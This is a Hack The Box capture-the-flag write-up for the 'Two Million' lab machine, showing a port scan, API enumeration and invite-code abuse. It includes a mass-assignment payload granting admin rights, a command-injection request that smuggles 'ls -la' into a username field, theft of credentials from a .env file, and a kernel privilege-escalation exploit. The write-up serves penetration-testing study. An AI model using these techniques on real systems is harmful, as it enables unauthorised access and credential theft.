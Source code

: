 ```yaml
---
title: "HTB: Two Million"
author: "v3l1d"
date: "2024-08-05"
year: "2024"
---
```


![](attachment/d8433fa495034cedbcbde285f3a79d68.png)

## Overview
In this write-up, we document the steps taken to penetrate the `2million.htb` target on Hack The Box. The process includes initial port scanning, domain configuration, API interaction, and the final privilege escalation exploit that achieved root access.


### Port Scan

```shell
 # Nmap 7.94SVN scan initiated Sat Aug 10 10:26:58 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan 10.10.11.221
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.061s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
An initial `Nmap` scan revealed two significant open ports:
- **Port 22 (SSH)**: Running OpenSSH 8.9p1 on Ubuntu.
- **Port 80 (HTTP)**: Hosting an Nginx server redirecting to `2million.htb`.


## Domain Configuration
After identifying `2million.htb` as the primary domain, the hosts file was updated to allow smooth navigation to the web application. Initial exploration led to discovering an invite code generation feature.


![](attachment/cebd9713f29652a2953bbac2f2371ed1.png)

## Invite Code Generation
The API provided an endpoint for generating invite codes. By making POST requests to the `/api/v1/invite/generate` endpoint, invite codes were retrieved, then decoded using `base64`, revealing codes formatted for entry.


``` shell
┌──(kali㉿kali)-[~/HTB]
└─$ curl -X POST \
  http://2million.htb/api/v1/invite/generate \
  -H 'Content-Type: application/json' \
  -d '{}'
{"0":200,"success":1,"data":{"code":"N0VDWEYt************","format":"encoded"}}                                                                                                                                    
┌──(kali㉿kali)-[~/HTB]
└─$
┌──(kali㉿kali)-[~/HTB]
└─$ curl -X POST \
  http://2million.htb/api/v1/invite/generate \
  -H 'Content-Type: application/json' \
  -d '{}'
{"0":200,"success":1,"data":{"code":"SFlKOUUtSDNQU************","format":"encoded"}}                                                                                                                              
┌──(kali㉿kali)-[~/HTB]
└─$ echo "SFlKOUUtSDN************" | base64 -d          
HYJ9E-H3PSB-0HILZ-09HUU      

```

## API Enumeration
Interacting with the application’s API revealed multiple endpoints under both `user` and `admin` roles. These endpoints included functionalities for user registration, authentication, VPN configuration, and admin-specific actions such as generating and updating user settings.

```shell
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 12:01:01 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 800

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```


![](attachment/a230cdbbd7bab9a39b58ad890523fe96.png)


## Exploiting the Admin API
Utilizing the `/api/v1/admin/settings/update` endpoint, a payload was crafted to update user privileges. By modifying the `is_admin` attribute, admin access was obtained.

```shell
{
	"email": <youremail>,
	"is_admin": 1
}
```

## Command Injection and Directory Access
After acquiring elevated privileges, we leveraged command injection by sending a POST request with a crafted username parameter that allowed shell command execution. This enabled directory listing and file discovery, leading to sensitive information extraction.


```shell
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=bgo6jig411fj3nk8bciqfonpdo
Upgrade-Insecure-Requests: 1
Content-Length: 47

{
"username": "velid; ls -la "
}

-----------------------------------------------------------------
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 18:21:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 690

total 56
drwxr-xr-x 10 root root 4096 Aug 11 18:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug 11 18:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views

------------------------------------------------------


```

## Sensitive File Discovery and SSH Access
The `.env` file was accessed, revealing login credentials. Using the credentials inside, SSH access was established with the following command:
Cat the .env file:

![](attachment/76cd033960d09f1f9ebf70f4cbfa5501.png)

Log in ssh with credentials

```shell
ssh admin@10.10.11.221: Su************
```

![](attachment/0127d0b1827447c60fa7afec74c2f32b.png)

### Privilege Escalation (CVE-2023-0386)
The [CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386) exploit was used to escalate privileges to root. This exploit enabled full control over the target system, concluding the penetration test with root access.
This CVE will give you root access

![](attachment/3a2cb1f670e1d6bbaa01132a1090bf31.png)


### Flags

```shell
root:7dc68d17************
user:f62e9b66************
```